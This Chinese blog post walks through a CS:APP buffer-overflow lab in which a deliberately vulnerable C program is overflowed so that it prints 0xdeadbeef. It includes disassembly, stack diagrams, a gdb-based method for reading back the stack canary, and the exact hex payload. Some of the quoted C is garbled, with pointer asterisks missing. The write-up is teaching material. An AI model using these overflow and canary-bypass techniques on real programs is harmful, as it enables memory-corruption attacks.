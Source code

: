 环境：kernel 2.6.31    gcc版本：4.4.1<br />
这个是csapp 《深入理解计算机系统》的一道题，直接在原程序运行的时候实现缓存区溢出攻击已经不可能实现了，除非你是用的版本很低的内核和gcc，如gcc 3.4.3。

先是王珑珑同学做这道题，我也跟着做了下，花了挺长时间，这期间很感谢王珑珑同学的耐心讲解，thanks~~~

原题如下：

```
/* Bomb program that is solved using a buffer overflow attack */

#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>

/* Like gets, except that characters are typed as pairs of hex digits. 
 * Nondigit characters are ignored. Stops when encounters newline */ 
char getxs(char dest)
{
  int c;
  int even = 1; /* Have read even number of digits */ 
  int otherd = 0; /* Other hex digit of pair */ 
  char sp = dest; 
  while ((c = getchar()) != EOF && c != '\n') { 
    if (isxdigit(c)) {
      int val;
      if ('0' <= c && c <= '9')
        val = c - '0';
      else if ('A' <= c && c <= 'F')
        val = c - 'A' + 10;
      else
        val = c - 'a' + 10;
      if (even) {
        otherd = val;
        even = 0;
      } else {
        sp++ = otherd 16 + val;
        even = 1;
      }
    }
  }
  sp++ = '\0';
  return dest;
}

/* $begin getbuf-c */
int getbuf()
{
  char buf[12];
  getxs(buf);
  return 1;
}
void test()
{
  int val;
  printf("Type Hex string:");
  val = getbuf();
  printf("getbuf returned 0x%x\n", val);
}
/*$end getbuf-c */
int main()
{
  int buf[16];
  /* This little hack is an attempt to get the stack to be in a 
   * stable position *
   */
  int offset = (((int) buf) & 0xFFF);
  int space = (int ) alloca(offset);
  space = 0; /* So that don't get complaint of unused variable */
  test();
  return 0;
}
```

正常时程序退出时总是返回1，现在要求通过缓存区溢出，让程序返回0xdeadbeef。<br />
注：(由于现在gcc在代码汇编代码中添加了%gs的缓存区溢出验证机制，所以如果gcc的版本较高，本实验只能在gdb下完成)

下面的网址是王珑珑童鞋的实现方式，他的gcc版本是4.3.3：<a href="http://hi.baidu.com/featherain/blog/item/99207b4ede9b2cf3d62afc1e.html">http://hi.baidu.com/featherain/blog/item/99207b4ede9b2cf3d62afc1e.html</a>（通过在缓存区中植入一段攻击代码，然后让getbuf() ret到缓存区攻击代码出，最后让攻击代码返回text()）。较高版本的内核用这种方法会报“段错误”（因为程序跳转到了非法地址空间）。

下面是实现缓存区溢出攻击的另一种方式。<br />
输入：｜任意十二个字符的编码｜｜%gs:0x14｜｜任意8个字符的编码｜｜getbuf栈贞的基地 址｜｜text()中第二个printf()的地址｜｜01 00 00 00 ｜｜71 87 04 08｜｜ef be ad de｜

下面解释为什么用输入上面哪些字符来实现缓存区溢出攻击。<br />
用gcc编译生成buffbomb.c的可执行程序后，用objdump反汇编发现getbuf的函数如下：

```
080485c0 :
215 80485c0:   55                      push   %ebp
216 80485c1:   89 e5                   mov    %esp,%ebp
217 80485c3:   83 ec 28                sub    $0x28,%esp
218 80485c6:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
219 80485cc:   89 45 f4                mov    %eax,-0xc(%ebp)
220 80485cf:   31 c0                   xor    %eax,%eax
221 80485d1:   8d 45 e8                lea    -0x18(%ebp),%eax
222 80485d4:   89 04 24                mov    %eax,(%esp)
223 80485d7:   e8 44 ff ff ff          call   8048520
224 80485dc:   b8 01 00 00 00          mov    $0x1,%eax
225 80485e1:   8b 55 f4                mov    -0xc(%ebp),%edx
226 80485e4:   65 33 15 14 00 00 00    xor    %gs:0x14,%edx
227 80485eb:   75 02                   jne    80485ef
228 80485ed:   c9                      leave
229 80485ee:   c3                      ret
230 80485ef:   90                      nop
231 80485f0:   e8 57 fe ff ff          call   804844c <__stack_chk_fail@plt>
232 80485f5:   8d 74 26 00             lea    0x0(%esi,%eiz,1),%esi
233 80485f9:   8d bc 27 00 00 00 00    lea    0x0(%edi,%eiz,1),%edi
```

发现第217行：sub $0x28, %esp   即为getbuf()申请了40个字节的堆栈空间，我们申请的数组是从当前基址偏移24个字节开始的，负责检查缓存区溢出的%gs:0x14是从当前基址偏移12个字节开始的。<br />
(注：4.4.1以前的版本char数组是从当前基址偏移16个字节处开始，负责检查缓存区溢出的%gs:0x14是从当前基址偏移4个字节开始的)

查看test()函数：

```
08048600 :
236 8048600:   55                      push   %ebp
237 8048601:   89 e5                   mov    %esp,%ebp
238 8048603:   83 ec 18                sub    $0x18,%esp
239 8048606:   c7 44 24 04 60 87 04    movl   $0x8048760,0x4(%esp)
240 804860d:   08
241 804860e:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
242 8048615:   e8 f2 fd ff ff          call   804840c <__printf_chk@plt>
243 804861a:   e8 a1 ff ff ff          call   80485c0
244 804861f:   c7 44 24 04 71 87 04    movl   $0x8048771,0x4(%esp)
245 8048626:   08
246 8048627:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
247 804862e:   89 44 24 08             mov    %eax,0x8(%esp)
248 8048632:   e8 d5 fd ff ff          call   804840c <__printf_chk@plt>
249 8048637:   c9                      leave
250 8048638:   c3                      ret
251 8048639:   8d b4 26 00 00 00 00    lea    0x0(%esi,%eiz,1),%esi
```

从244行起是关键，246行是把指针指向位置设为1，由此猜测%esp存放的可能是printf的参数数目，247行是把eax的值压到esp+8的位置，由上面的getbuf的代码我们知道eax存放的是getbuf的返回值，所以我们只需要在调用call printf之前把0xdeadbeef压入esp+8的位置就可以实现我们的目的了。

正常时整个堆栈的情况如下所示：

```
——————
%eax
——————
0x8048771
——————
0x1                       <----esp
——————
返回地址（call getbuf下一条指令）
——————
%ebp
——————
8个字节
——————
%gs:0x14
——————
12个字节
——————
```

至此整体的思路已经有了：通过缓存区溢出修改printf的相关参数和getbuf()ret的地址，使之跳过call getbuf和call printf之间的代码，直接执行printf。即如下形式：

```
——————
0xdeadbeef
——————
0x8048771
——————
0x1                       <----esp
——————
返回地址（call printf的地址）
——————
%ebp
——————
8个字节
——————
%gs:0x14
——————
12个字节
——————
```

具体实现过程如下：<br />
1.在getbuf中创建断点，得到%gs:0x14的值，读出ebp中存放的值<br />
2.输入任意十二个字符填满char[12],继续输入%gs:0x14的值，迫使程序检查不出缓存区溢出，填满栈贞剩下的8个字节，输入ebp中存放的值，test()中call printf的地址，0x1,0x8048771,0xdeadbeef<br />

即：aa aa aa aa aa aa aa aa aa aa aa aa 00 99 dd 78 11 11 11 11 11 11 11 11 d8 ef ff bf 32 86 04 08 01 00 00 00 71 87 04 08 ef bf ad de

总结;虽然实现了return 0xdeadbeef的目的，但是实际应用价值不大，尤其是%gs:0x14每次的值都会变化，所以只能在gdb模式下得到%gs:0x14的值然后在溢出时刻意将其添回，才不会被程序发现缓存区溢出，随着gcc的越变越聪明，给人的可趁之机也越来越少